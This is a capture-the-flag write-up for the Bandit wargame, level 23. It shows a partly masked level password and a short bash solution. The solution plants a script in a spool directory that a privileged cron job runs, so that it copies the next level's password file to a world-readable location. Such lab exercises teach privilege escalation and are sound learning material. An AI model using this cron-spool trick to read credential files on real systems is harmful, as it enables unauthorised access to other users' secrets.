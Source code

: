 ## level 23

>bandit23:0Zf11ioIjMVN551jX3Cm************

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

### Solution:

```bash
# change to the /etc/cron.d directory and cat the cronjob_bandit24 file
cd /etc/cron.d && cat cronjob_bandit24

# check the /usr/bin/cronjob_bandit24.sh file wich is running every minute

# change to the /tmp directory 
cd $(mktemp -d)

# create following script

#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.jYGnfvoM7U/password

# create the password file
touch password

# change permissions

chmod 777 password && chmod 777 getpass.sh

# copy it to /var/spool/bandit24/foo/
cp getpass.sh /var/spool/bandit24/foo/

# grab the password from the password file
cat password
```